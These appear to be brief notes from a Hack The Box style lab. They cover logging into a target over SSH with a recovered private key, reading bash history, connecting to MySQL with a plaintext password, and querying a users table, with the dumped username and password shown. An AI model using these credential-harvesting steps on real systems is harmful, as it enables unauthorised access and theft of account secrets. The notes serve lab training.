 
# SSH CONNECTION

vi id_rsa
chmod 600 id_rsa

ssh tom@$TARGET -i id_rsa

# BASH HISTORY CONSULTATION
history

# MYSQL Connection
mysql -u tom -p
NMds732Js2761


show databases;
show tables;
show columns from users;
select username,password from users where username="HTB";

+----------+------------------------------+
| username | password                     |
+----------+------------------------------+
| HTB      | cr3n4o7rzse7rzhnckhssncif7ds |
+----------+------------------------------+
1 row in set (0.00 sec)
